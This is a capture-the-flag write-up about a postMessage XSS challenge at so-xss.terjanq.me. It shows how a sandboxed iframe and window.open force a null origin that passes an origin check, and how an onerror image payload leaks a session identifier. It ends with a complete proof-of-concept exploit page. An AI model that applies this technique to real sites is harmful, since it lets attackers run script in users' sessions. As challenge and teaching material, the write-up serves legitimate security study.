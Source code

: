 ![2022-04-07_01-54](https://user-images.githubusercontent.com/59454895/162093274-f54f182c-1dae-4f29-98ce-a7e1792f40fd.png)

## Let's begin

The first thing that can be noticed in the challenge is the use of post-messages and also the use of dompurify, as you can see from this screen:
![2022-04-07_02-01](https://user-images.githubusercontent.com/59454895/162093835-fd21e646-42a8-4395-b241-62196c4346ec.png)


Furthermore, at the following address it is possible to notice another part of the code, which highlights the goal, that is to bypass the highlighted condition in order to reach the sink
![2022-04-07_02-07](https://user-images.githubusercontent.com/59454895/162094500-690c045b-eaf3-44e0-bee3-82b866bf9d34.png)

the functioning of this part of The code is very clear, a listener event was used in order to check that the source and the identifier are not different, it's also important to say that the identifier is stored in a user's session.

First of all it was necessary to find a way to bypass this check ```e.origin !== window.origin```, After hitting my head a bit I found this thread on StackOverflow that really helped me a lot (https://stackoverflow.com/questions/55451493/what-is-window-origin,  https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#attr-sandbox), apparently if we embedded the iframe via ```<iframe src="https://so-xss.terjanq.me/iframe.php" sandbox>``` we could force the null origin.

Now another problem arises, as the page cannot be embedded inside an iframe because there was the flag ```X-Frame-Options: SAMEORIGIN```. It means that the page can only be displayed in a frame on the same origin as the page itself. 

### There is still hope

One important feature proved very important to overcome this problem, all windows opened from sandbox iframe inherit the sandbox flag, as documentated here: https://www.w3.org/TR/2010/WD-html5-20100624/the-iframe-element.html.
It means that we don't need to put the page inside an iframe, we can just created a sandbox iframe and use ```window.open``` inside it, like this:
```javascript
<iframe id=f sandbox="allow-scripts allow-top-navigation allow-forms allow-modals allow-popups" srcdoc="<button onclick=run()>click me 1</button><script>
  function run() {
    var win = window.open('https://so-xss.terjanq.me/iframe.php')
    setTimeout(() => {
      win.postMessage({
            identifier: 'abc',
            type: 'render',
            body: `<img src=x onerror=opener.top.postMessage({identifier},'*')>`,
        }, '*');
    }, 2000)
  }
</script>"></iframe>
```
In this way the newly opened window inherit the sandbox flag and his origin will become null. The sandbox iframe and the window for iframe.php (which is accessible by the variable win) shares the same origin null.
Now another issue appears, The page on iframe.php has the origin "null", so we can't access any resources on the origin ```so-xss.terjanq.me``` and the rules says that we need to execute xss on that origin.

This is where the parameter ```identifier``` comes into play, because it's possible to open ```https://so-xss.terjanq.me/iframe.php``` and send XSS with stolen identifier so the origin is ```so-xss.terjanq.me```.

This is the final poc :
```javascript
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>test</title>
  </head>
  <body>
    <iframe id=f sandbox="allow-scripts allow-top-navigation allow-forms allow-modals allow-popups" srcdoc="<button onclick=run()>click me 1</button><script>
      function run() {
        var win = window.open('https://so-xss.terjanq.me/iframe.php')
        setTimeout(() => {
          win.postMessage({
                identifier: 'abc',
                type: 'render',
                body: `<img src=x onerror=opener.top.postMessage({identifier},'*')>`,
            }, '*');
        }, 2000)
      }
    </script>"></iframe><button onclick="run()">click me 2</button>
    <script>
      var realWin
      var identifier

      function send() {
        if (!realWin) {
          setTimeout(send, 500)
          return
        }

        // give it some time to load
        setTimeout(() => {
          realWin.postMessage({
            identifier,
            type: 'render',
            body: `<img src=x onerror=alert(origin)>`,
          }, '*');
        }, 1000)
        
      }
      onmessage = (e) => {
        if (e.data && e.data.identifier) {
          identifier = e.data.identifier
          console.log('identifier:', identifier)
          send()
        }
      }
      function run() {
        realWin = window.open('https://so-xss.terjanq.me/iframe.php')
      }

    </script>
  </body>
</html> 
```
To resume

1) Open https://so-xss.terjanq.me/iframe.php from a sandboxed iframe, so in this way the newly opened window inherit the sandbox flag and his origin will become null.
2) Open https://so-xss.terjanq.me/iframe.php and send the XSS with the stolen identifier so the origin is ```so-xss.terjanq.me.```

